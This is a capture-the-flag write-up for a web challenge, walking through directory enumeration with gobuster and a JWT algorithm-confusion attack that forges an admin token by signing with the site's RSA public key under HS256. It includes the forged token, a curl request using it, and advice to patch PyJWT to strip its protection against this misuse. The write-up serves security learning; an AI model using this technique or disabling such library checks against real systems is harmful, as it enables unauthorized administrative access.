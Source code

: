 # Challenge description

Bruh, Tanjiro messed up BIG TIME. 😭 He hid Goku’s summoning scroll somewhere on this cursed website, and now it’s all broken. 💀 If we don’t find it fast, Goku’s never showing up, and we’re all doomed. No cap, this might be the hardest quest yet. Think you got what it takes? 👀🔥 Can you wield your skills like Tanjiro’s blade and break through the encrypted defenses?

https://tan-je-ro.onrender.com/ 

# Soluce 

I started by looking at the possible directories on the website using gobuster.

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ gobuster dir -u https://tan-je-ro.onrender.com/ -w /usr/share/wordlists/dirb/common.txt -k

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://tan-je-ro.onrender.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 200) [Size: 412]
/ADMIN                (Status: 200) [Size: 412]
/Admin                (Status: 200) [Size: 412]
/login                (Status: 200) [Size: 861]
/Login                (Status: 200) [Size: 861]
/public               (Status: 200) [Size: 875]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

When we go to the /admin directory, it say that we need to have a token to access it.

When we go to the /login directory, it gives us a JWT token exemple for a normal user.

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6ZmFsc2UsIm5hbWUiOiJHdWVzdCIsImlhdCI6MTc0MDkxMjc2NX0.irNHg8Yvzh_KWuQE9OgZr3HdsuOfr-SOhqGlTVEhwqGReCUMSFkVdiF4aaffGhC2r8czRFG2a08QCORU_EY1o6IA_EEKRJsLnQzLV5nS1HKDDMAdVW8-q6Kvu6YXn3lJbaq5i0vPjPdde1UjU59GBkm3FedK6x-kPHkxVd-jNcnRi2rUzcB4ebqDsJF_Fw2xzGwCBNQTyGRHCWzK6rs7bYO_l5XPsXMym8Ssjt6hTBAhd33goJ0Pm7fr9VfaAzEPc1kZP9HCtLLURRc8MwL2PAvHXPjc4X9YW4b59ufXhwRzxQ9o7pZqc-04F2s8H8tb2h6I5CSmUD1_NULd2D7OeA
```

And when we go to the /public directory, it gives us the public key to verify the JWT token.

```
-----BEGIN RSA PUBLIC KEY-----
MIIBCgKCAQEAwcMU3Y6CQyvA87vJRKZomubiceep9YlNdp6y95ICIZ3y7jV3oZyt
b1zfwFJ1p/pdTd7ckOOQVsP6/Y7g6gLa9S8YZmKzy7jU6EnV2XPnXTF287hXasup
OzLd4iAzRw12r9pIQ/Fjum8pQ2LzWEaAmuHfkm1o3C9i8ZsbfvZIw/tAB/qEfh34
dGoVvPsJawF44oEFkAQYlS40FmM1EkNzNmNPtKUXlRrr0be0PTCshUbX7VpGC0b1
9JKb/vB+KGye6yUjLwHKKUHZedHQFMMV9OayOwWSnP9J+9Tq77qyNSeBe6vy6uD1
XPm0mfmUYLJZKy0XqjHHxOB9DjKaecmMoQIDAQAB
-----END RSA PUBLIC KEY-----
```

If we put the JWT on [jwt.io](https://jwt.io/), we can see that:

```
{
  "alg": "RS256",
  "typ": "JWT"

}
{
  "admin": false,
  "name": "Guest",
  "iat": 1740912765
}
```

We can see that the token is signed with the RS256 algorithm. We will use the public key as a secret to sign our own token with the admin field set to true in HS256 algorithm.

The code to do this is [here](code/tan_je_ro.py).

Be careful, python's JWT library has a security so that it is not possible to use a public key to sign a JWT. So you have to modify 'algorithms.py' of the library, the function 'prepare_key' to remove the security.

The code gives us this token:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZSwibmFtZSI6ImFkbWluIiwiaWF0IjoxNzQwOTU3NDc3fQ.PPNAmTayT5iC7K8MOVsOPyuajlcevzhmS5cxoyfTu0U
```

We can call the /admin directory with this token and we get the flag.

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ curl "https://tan-je-ro.onrender.com/admin?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZSwibmFtZSI6ImFkbWluIiwiaWF0IjoxNzQwOTU3NDc3fQ.PPNAmTayT5iC7K8MOVsOPyuajlcevzhmS5cxoyfTu0U"
```
